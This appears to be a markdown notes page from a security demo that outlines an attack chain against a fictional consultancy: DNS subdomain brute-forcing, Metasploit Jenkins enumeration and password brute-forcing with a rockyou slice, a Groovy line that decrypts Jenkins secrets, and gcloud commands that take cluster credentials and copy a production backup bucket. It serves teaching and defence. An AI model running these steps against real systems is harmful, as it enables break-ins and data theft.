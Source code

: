 # Notes

## Agenda

1. [Getting To Know / DNS Recon](./02_gettingKnow.md)
2. [Jenkins Enum](./03_jenkinsEnum.md)
3. [Jenkins BruteForce](./04_jenkinsBruteforce.md)
4. [Jenkins Recon / Secret Decrypt](./05_jenkinsDecrypt.md)
6. [GCP Login / Lookaround](./06_cloudAccess.md)
7. [Kubernetes Lookaround](./07_kubernetesLookaround.md)
8. [Storage Exfiltrate](./08_storageExfiltrate.md)
9. [What Would Defend](./09_whatWouldDefend.md)

## Some Notes IC-ME

### DNS Reconnaissance

```bash
dnsrecon -t brt -d nevervictimconsult.xyz --threads 25 -D /usr/share/wordlists/subdomains-top1million-5000.txt
```

### Jenkins BruteForce

```bash
[...]
use auxiliary/scanner/http/jenkins_enum
[...]
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
[...]
use auxiliary/scanner/http/jenkins_login
```

### Cloud Access

```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

```bash
gcloud container clusters get-credentials --region=europe-west3 conduit-k8s-test
[...]
gcloud storage cp -r gs://conduit-database-backup-prod/ .
```

</details>
